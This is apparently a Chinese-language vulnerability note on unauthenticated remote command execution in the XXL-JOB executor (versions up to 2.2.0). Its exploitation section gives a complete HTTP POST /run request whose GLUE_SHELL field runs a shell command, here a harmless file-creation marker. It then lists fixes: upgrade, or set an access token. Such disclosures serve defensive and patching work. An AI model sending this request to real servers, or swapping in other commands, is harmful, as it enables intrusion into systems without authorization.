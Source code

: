 **### 一 漏洞描述
XXL-JOB是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。  
现已开放源代码并接入多家公司线上产品线，开箱即用。  
XXL-JOB分为admin和executor两端，前者为后台管理页面，后者是任务执行的客户端。  
executor默认没有配置认证，未授权的攻击者可以通过RESTful API执行任意命令。**

影响范围: XXL-JOB <= 2.2.0

### 二 漏洞利用
POST /run HTTP/1.1
Host: your-ip:9999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "touch /tmp/success",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}

### 三 漏洞修复
1 升级
2 设置accessToken  
https://www.xuxueli.com/xxl-job/#5.10%20%E8%AE%BF%E9%97%AE%E4%BB%A4%E7%89%8C%EF%BC%88AccessToken%EF%BC%89


> 参考链接  
> 复现: https://blog.csdn.net/ec_carrot/article/details/119839639  
> 挖掘: http://cn-sec.com/archives/178398.html
> 官方文档: https://www.xuxueli.com/xxl-job/
